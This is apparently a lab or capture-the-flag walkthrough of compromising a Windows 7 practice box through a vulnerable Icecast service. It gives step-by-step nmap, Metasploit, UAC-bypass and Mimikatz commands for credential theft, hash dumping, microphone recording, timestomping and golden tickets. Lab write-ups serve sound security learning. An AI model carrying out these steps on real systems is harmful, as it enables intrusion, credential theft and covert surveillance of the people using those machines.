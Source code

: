 ## ==**Recon Stage**==
> - Perform SYN scan on all ports.
```
nmap -sS -p- -vv -o nmap_scan.txt 10.10.51.67
```
> The above scan took way too long.
> - Performing an OS, version, script scan, and trace route *==-A==* with timing set with *==-T4==* on all ports.
```
nmap -A -T4 -p- -vv -o nmap_scan.txt 10.10.51.67
```
![](recon_1.png)
![](recon_2.png)
![](recon_3.png)

#### Interesting findings
>- 	*MSRDP* running on port `3389`
>- 	*SMB* running on port `139, 445`
>- 	*Icecast* running on port `8000`
>- 	*CommonName* of *DARK-PC*
>- 	Windows 7 Professional 7601



## **Access Stage**
>	- Research on Icecast shows that, that version is highly vulnerable to *Execute Code Overflow* `CVE-2004-1561`.
>	- Search in *Metasploit* for Icecast.
>	- `msfconsole`![](access_1.png)
>	- Use the found module add the required options, and make sure that the *LHOST* option has the *VPN IP*.
>	- Run the exploit `run` or `exploit`.
>	- Meterpreter session opened. ![](access_2.png)


## **Privilege Escalation Stage**
>	- Found user running the last Icecast process with `getuid`.
>	- Found build of windows with `sysinfo` although it was already found during recon stage.
>	- `run post/multi/recon/local_exploit_suggester` as recommended.
>	- Too many exploits to list.![](privesc_1.png)
```
use exploit/windows/local/bypassuac_eventvwr
```
>	- Make sure that LHOST is set to the VPN IP and set `SESSION`.![](privesc_2.png)
>	- `run` the exploit.![](privesc_3.png)
>	- Verify expanded permissions using `getprivs`
>	- To change ownership of files use `SeTakeOwnershipPrivilege`


## **Looting Stage**
>	- List the processes using `ps`![](looting_1.png)
>	- To interact with the *lsass* service; the service responsible for authentication within Windows, we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and has the same permissions. The chosen service is printer spool `spoolsv.exe`.
>	- Migrate to the process using `migrate -N spoolsv.exe`.
>	- Check user with `getuid`.![](looting_2.png)
>	- Load *Mimikatz* tool; a tool famous for password dumping, with `load kiwi` (Kiwi is the updated version of Mimikatz).
>	- Use `help` command to check for newly added Kiwi commands.
>	- Command `creds_all` retrieves all credentials.
>	- Run `creds_all`.![](looting_3.png)![](looting_4.png)
>	- *Mimikatz* allows us to steal this password out of memory even without the user *Dark* logged in as there is a scheduled task that runs the *Icecast* as the user *Dark*.
>	-  It also helps that *Windows Defender* & *Firewall* isn't running on the box.


## **Post-Exploitation Stage**
>	- Dump all the hashes stored on the system using `hashdump`.
>	- Watch the remote user's desktop in real time using `screenshare`.
>	- Record from a microphone attached to the system using `record_mic`.
>	- Modify timestamps of files on the system using `timestomp`.
>	- Mimikatz allows us to create a `golden ticket`, which allows us to authenticate anywhere with ease, use `golden_ticket_create`.
>	- `run post/windows/manage/enable_rdp` to remote into machines and view them as their users do.![](post_exploit_1.png)
>
